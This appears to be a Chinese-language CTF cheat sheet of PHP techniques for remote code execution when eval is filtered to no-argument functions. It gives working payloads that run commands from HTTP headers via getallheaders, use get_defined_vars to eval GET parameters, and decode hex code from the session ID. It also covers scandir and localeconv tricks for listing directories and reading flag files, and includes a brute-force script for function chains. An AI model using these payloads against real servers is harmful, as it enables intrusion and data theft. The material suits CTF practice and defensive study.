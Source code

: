 ```php
getenv() 获取一个环境变量的值(在7.1之后可以不给予参数)。
localeconv() 函数返回一包含本地数字及货币格式信息的数组。
```

#### getallheaders()

当PHP是执行在**Apache**模组时，getallheaders( )才有效

`system(current(getallheaders()));`获取当前请求中的第一个 HTTP 头的值，然后将这个值作为命令在服务器上执行。

#### get_defined_vars ()

nginx和apache通用`get_defined_vars ()`

简单解释一下,`get_defined_vars()`：返回由所有已定义变量所组成的数组.下面这个payload会在`[_GET]=>Array`下产生`a`,`b`于是便返回`[_GET]`的最后一个元素

`a=eval(end(current(get_defined_vars())));&b=phpinfo();`

#### sessionid

```php
<?php
eval(hex2bin(session_id(session_start())));
#PHPSESSID=706870696e666f28293b    这个是phpinfo();的hex编码。
?>
```

#### 一些利用方式

获得当前目录文件

```php
var_dump(scandir(getcwd())); 
var_dump(scandir(current(localeconv()));  
var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))));    //利用三角函数和floor ceil，这个是php7下能够成功
```

获得上级目录文件

```php
var_dump(scandir(dirname(getcwd())));
var_dump(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))));//这种方法理论上来说，每隔47秒才能成功执行一次
var_dump(scandir(chr(ceil(sqrt(cosh(tan(tan(tan(cosh(sinh(exp(chdir(next(scandir(pos(localeconv()))))))))))))))));
```

找到flag文件后的读取
如果flag是最后一个:end()
flag处于倒数第二个:next(array_reverse())
flag处于其他位置（这种靠运气）:array_rand(array_flip())

附上三角函数的脚本，可以自己改一改，或者增加点函数

```php
<?php
$list = array("ceil","sinh","cosh","tan","floor","sqrt","cos","sin");
foreach($list as $a){
foreach($list as $b){
foreach($list as $c){
foreach($list as $d){
foreach($list as $e){
foreach($list as $f){
foreach($list as $g){
foreach($list as $h){
if($a($b($c($d($e($f($g($h(phpversion())))))))) == 46)
echo "$a+$b+$c+$d+$e+$f+$g+$h"."\n";    
}}}}}}}}
```